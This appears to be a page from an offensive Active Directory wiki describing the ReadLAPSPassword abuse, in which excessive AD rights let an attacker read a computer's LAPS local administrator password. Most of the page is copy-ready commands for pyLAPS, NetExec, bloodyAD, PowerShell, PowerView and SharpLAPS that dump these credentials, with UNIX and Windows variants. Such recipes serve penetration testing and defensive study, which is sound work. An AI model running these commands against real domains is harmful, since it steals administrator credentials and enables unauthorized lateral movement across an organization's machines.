 # ReadLAPSPassword

This abuse can be carried out when controlling an object that has `GenericAll` or `AllExtendedRights` (or combination of `GetChanges` and (`GetChangesInFilteredSet` or `GetChangesAll`) for domain-wise synchronization) over the target computer configured for LAPS. The attacker can then read the LAPS password of the computer account (i.e. the password of the computer's local administrator).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [pyLAPS](https://github.com/p0dalirius/pyLAPS) (Python) can be used to retrieve LAPS passwords.

```bash
pyLAPS.py --action get -d 'DOMAIN' -u 'USER' -p 'PASSWORD' --dc-ip 192.168.56.101
```

Alternatively, [NetExec](https://github.com/Pennyw0rth/NetExec) also has this ability. In case it doesn't work [this public module](https://github.com/T3KX/Crackmapexec-LAPS) for CrackMapExec could also be used.

```bash
# Default command
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps

# The COMPUTER filter can be the name or wildcard (e.g. WIN-S10, WIN-* etc. Default: *)
nxc ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps -O computer="target-*"
```

Impacket's ntlmrelayx also carries that feature, usable with the `--dump-laps`.

[LAPSDumper](https://github.com/n00py/LAPSDumper) is another Python alternative.

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```
{% endtab %}

{% tab title="Windows" %}
This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

The [`PowerView`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) powershell module from PowerSploit can also be used for that purpose.

```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS) (C#) automates that process.&#x20;

```bash
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```
{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://simondotsh.com/infosec/2022/07/11/dirsync.html" %}
